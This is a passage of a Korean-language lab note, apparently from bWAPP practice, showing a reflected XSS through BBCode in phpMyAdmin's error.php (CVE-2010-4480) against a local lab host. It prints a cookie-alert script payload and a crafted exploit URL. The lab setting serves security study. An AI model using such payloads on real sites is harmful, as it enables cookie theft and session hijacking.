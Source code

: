 ```php
            else
            {

    ?>
```

---

## phpMyAdmin BBCode Tag XSS(Low)

![image](https://user-images.githubusercontent.com/28076542/52532364-468c6c00-2d67-11e9-849a-2aaa97d5612a.png)

![image](https://user-images.githubusercontent.com/28076542/52533178-60cc4700-2d73-11e9-9c9b-c1b265d021df.png)

* [CVE-2010-4480](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4480)
* **BBcode**로 XSS가 실행되듯이 동작하게 할 수 있음

### phpmyadmin

* php 관련 설정을 하는 사이트

![image](https://user-images.githubusercontent.com/28076542/52533217-d506ea80-2d73-11e9-9f82-1b9e8d1dee16.png)

* URL: `http://192.168.190.143/phpmyadmin/`
* php 버전이 낮아 취약점이 존재
* URL: `http://192.168.190.143/phpmyadmin/error.php?type=test1234&error=test4321` 주소에 들어가면 다음과 같은 창이 뜸

![image](https://user-images.githubusercontent.com/28076542/52533248-70985b00-2d74-11e9-8eab-a54324f5fc68.png)

### BBcode 추가

* 이전에 만들어둔 attack.html에 접속하도록 하게 함

### attack.html

```html
<script>alert(document.cookie)</script>
```

* URL: `http://192.168.190.143/phpmyadmin/error.php?type=test1234&error=test4321[a@http://192.168.190.143/bWAPP/attack.html@]click[/a]`

![image](https://user-images.githubusercontent.com/28076542/52533304-41ceb480-2d75-11e9-8090-98f4bd009c15.png)

* 클릭을 하면

![image](https://user-images.githubusercontent.com/28076542/52533308-501cd080-2d75-11e9-9826-097693721758.png)

---

## XSS - Reflected (PHP_SELF)
